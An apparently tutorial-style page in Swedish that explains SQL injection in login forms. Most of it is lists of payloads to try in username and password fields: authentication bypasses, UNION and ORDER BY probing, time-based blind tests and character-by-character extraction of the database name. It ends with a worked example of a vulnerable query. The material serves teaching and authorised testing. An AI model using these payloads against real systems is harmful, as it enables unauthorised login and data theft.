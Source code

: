 SQL-injektion är en sårbarhet där du kan manipulera en databasfråga genom att skriva speciella tecken i t.ex. inloggningsformulär. Målet är ofta att logga in utan lösenord eller att dumpa data från databasen.

**Exempel på payloads att testa i username eller password:**

- I username-fältet:
	```
	' OR 1=1 --
	admin' --
	" OR "1"="1
	' UNION SELECT 1,2,3 --
	' OR '' = '
	' OR 1=1#
	' OR 1=1/*
	' OR 1=1 LIMIT 1; --
	' OR sleep(5)--
	' OR 1=1 AND ''=' 
	' OR 1=1 AND 1=1 --
	' OR 1=1 AND 1=2 --
	' OR 1=1 ORDER BY 1 --
	' OR 1=1 ORDER BY 2 --
	' OR 1=1 ORDER BY 3 --
	' OR 1=1 ORDER BY 100 --
	' OR EXISTS(SELECT * FROM users) --
	' OR (SELECT COUNT(*) FROM users) > 0 --
	' OR (SELECT SUBSTRING(@@version,1,1))='5 --
	' OR ASCII(SUBSTRING((SELECT database()),1,1))=115 --
	```

- I password-fältet (om användarnamnet är känt, t.ex. admin):
	```
	' OR 'a'='a
	" OR "a"="a
	' OR 1=1#
	' OR '' = '
	' OR 1=1 --
	' OR 1=1/*
	' OR sleep(5)--
	' OR 1=1 LIMIT 1; --
	' OR 1=1 AND ''=' 
	' OR 1=1 AND 1=1 --
	' OR 1=1 ORDER BY 1 --
	' OR 1=1 ORDER BY 2 --
	' OR 1=1 ORDER BY 3 --
	' OR 1=1 ORDER BY 100 --
	' OR EXISTS(SELECT * FROM users) --
	' OR (SELECT COUNT(*) FROM users) > 0 --
	' OR (SELECT SUBSTRING(@@version,1,1))='5 --
	' OR ASCII(SUBSTRING((SELECT database()),1,1))=115 --
	```

**Hur det fungerar:**
Om webbplatsen gör en SQL-fråga som:
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```
och du anger `' OR 1=1 --` som användarnamn, blir frågan:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
vilket alltid är sant och kan ge dig inloggning utan rätt lösenord.
